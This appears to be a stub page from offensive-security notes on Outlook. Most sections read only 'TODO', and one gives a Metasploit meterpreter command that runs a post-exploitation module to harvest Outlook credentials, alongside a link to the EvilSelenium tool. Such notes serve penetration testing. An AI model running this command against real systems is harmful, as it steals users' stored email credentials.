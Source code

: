 # Outlook

## 01 - Manual

TODO: Fill this info

## 02 - Metasploit

```
meterpreter > run post/windows/gather/credentials/outlook
```

## 03 - EvilSelenium

TODO: Fill this info

---
## References

- [EvilSelenium](https://github.com/mrd0x/EvilSelenium)